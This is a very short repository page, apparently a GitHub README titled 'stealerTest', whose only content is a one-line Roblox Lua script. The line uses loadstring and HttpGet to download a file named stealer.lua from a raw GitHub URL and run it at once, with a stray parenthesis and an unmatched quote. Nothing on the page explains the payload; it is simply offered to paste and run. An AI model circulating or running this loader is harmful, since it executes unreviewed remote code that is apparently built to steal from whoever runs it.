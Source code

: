 # stealerTest

script: loadstring(game:HttpGet((https://raw.githubusercontent.com/zedikik/stealerTest/refs/heads/main/stealer.lua", true))()
